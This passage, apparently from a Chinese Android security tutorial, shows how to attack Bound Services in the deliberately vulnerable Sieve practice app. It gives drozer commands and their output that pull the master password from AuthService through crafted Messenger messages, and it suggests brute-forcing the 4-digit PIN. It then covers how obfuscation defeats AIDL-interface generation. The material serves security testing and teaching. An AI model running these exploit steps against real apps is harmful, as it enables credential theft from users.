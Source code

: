 ```
                    else {
                        goto label_99;
                    }

                    this.sendResponseMessage(4, v1, v3, v8);
                    return;

```

AuthService根据传入Message对象的不同，执行不同的动作，注意当Message对象的what为2354，arg1为9234时，如果当前的PIN正确，则可返回Sieve使用的主password。Drozer提供了app.service.send模块，利用该模块可以很方便地测试基于Messenger的跨进程通信。

```
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 0 --extra string com.mwr.example.sieve.PIN 1234 --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 5
  arg1: 41
  arg2: 0
  Extras
    com.mwr.example.sieve.PASSWORD (String) : passw0rd123123123

```

如果PIN不正确，则只返回当前传入的PIN

```
dz> run app.service.send com.mwr.example.sieve com.mwr.example.sieve.AuthService --msg 2354 9234 33333 --extra string com.mwr.example.sieve.PIN 2344 --bundle-as-obj
Got a reply from com.mwr.example.sieve/com.mwr.example.sieve.AuthService:
  what: 5
  arg1: 41
  arg2: 1
  Extras
    com.mwr.example.sieve.PIN (String) : 2344

```

由于PIN只有4位，利用上述两种结果的不同，可以编写程序进行爆破。另外一个CryptoService同样也有类似的漏洞，通过传入特定的Message对象，执行加解密操作，可被用来解密password，详见【3】。

0x03 攻击基于AIDL的Bound Service
===========================

* * *

文献【1】给出了一个存在命令执行漏洞的Bound Service，并根据Bound Service的apk生成AIDL接口文件，编写攻击程序调用Bound Service中的命令执行方法。然而，在使用中发现生成AIDL文件的工具主要根据smali文件中的Stub.Proxy类进行抓取，而当apk进行了混淆，便不能正确生成AIDL文件了。例如，我们配置build.gradle中的minifyEnabledtrue开关为true，使用Android Studio的默认混淆规则。对混淆的apk与未混淆的apk使用JEB逆向对比如下

![image](http://drops.javaweb.org/uploads/images/1706a4f588c61cb0985af5980b298b856d9964b7.jpg)

混淆后的apk少了许多有关AIDL的信息，没有了Stub Proxy这些特征，致使如下代码实现的GenerateAIDL工具出错

```
if (descriptorToDot(interfaces.first()).equals(IINTERFACE_CLASS)) {

/* Now grab the Stub.Proxy, to get the protocols */
String stubProxyName = className + ".Stub.Proxy";
DexBackedClassDef stubProxyDef = getStubProxy(classDefs, stubProxyName);
if (stubProxyDef == null) {
    System.err.println("[ERROR] Unable to find Stub.Proxy for class: "
                                            + stubProxyName + ", Skiping!");
    continue;
}

```

